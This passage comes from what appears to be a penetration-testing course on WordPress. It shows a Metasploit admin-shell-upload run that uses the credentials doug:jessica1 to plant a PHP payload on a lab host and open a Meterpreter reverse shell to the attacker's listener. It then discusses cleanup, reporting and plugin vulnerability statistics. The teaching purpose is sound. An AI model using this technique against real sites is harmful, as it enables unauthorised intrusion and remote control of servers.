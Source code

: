 Once we are satisfied with the setup, we can type `exploit` and obtain a reverse shell. From here, we could start enumerating the host for sensitive data or paths for vertical/horizontal privilege escalation and lateral movement.

```shell-session
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```

In the above example, the Metasploit module uploaded the `wCoUuUPfIO.php` file to the `/wp-content/plugins` directory. Many Metasploit modules (and other tools) attempt to clean up after themselves, but some fail. During an assessment, we would want to make every attempt to clean up this artifact from the client system and, regardless of whether we were able to remove it or not, we should list this artifact in our report appendices. At the very least, our report should have an appendix section that lists the following information—more on this in a later module.

* Exploited systems (hostname/IP and method of exploitation)
* Compromised users (account name, method of compromise, account type (local or domain))
* Artifacts created on systems
* Changes (such as adding a local admin user or modifying group membership)

***

## Leveraging Known Vulnerabilities

Over the years, WordPress core has suffered from its fair share of vulnerabilities, but the vast majority of them can be found in plugins. According to the WordPress Vulnerability Statistics page hosted [here](https://wpscan.com/statistics), at the time of writing, there were 23,595 vulnerabilities in the WPScan database. These vulnerabilities can be broken down as follows:

* 4% WordPress core
* 89% plugins
* 7% themes

The number of vulnerabilities related to WordPress has grown steadily since 2014, likely due to the sheer amount of free (and paid) themes and plugins available, with more and more being added every week. For this reason, we must be extremely thorough when enumerating a WordPress site as we may find plugins with recently discovered vulnerabilities or even old, unused/forgotten plugins that no longer serve a purpose on the site but can still be accessed.
